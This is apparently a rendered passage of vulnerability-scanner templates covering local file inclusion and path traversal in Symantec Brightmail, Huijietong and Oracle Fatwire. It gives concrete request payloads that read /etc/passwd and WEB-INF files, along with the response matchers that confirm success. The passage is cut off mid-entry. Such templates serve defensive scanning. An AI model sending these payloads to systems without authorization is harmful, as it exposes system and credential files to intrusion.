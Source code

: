 - {{BaseURL}}/brightmail/servlet/com.ve.kavachart.servlet.ChartStream?sn=../../WEB-INF/

### Matchers

**Type - word**

- words
  1. struts-default.xml

**Type - status**

- status
  1. 200

---

# Huijietong - Local File Inclusion

## Description

- Huijietong is vulnerable to local file inclusion.
- severity - high
- tags - huijietong,lfi

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/fileDownload?action=downloadBackupFile
  - fullPath=/etc/passwd

---

# Oracle Fatwire 6.3 - Path Traversal

## Description

- Oracle Fatwire 6.3 suffers from a path traversal vulnerability in the getSurvey.jsp endpoint.

- severity - high
- tags - lfi,oracle,fatwire,edb

## Requests

- Method - GET

### URL

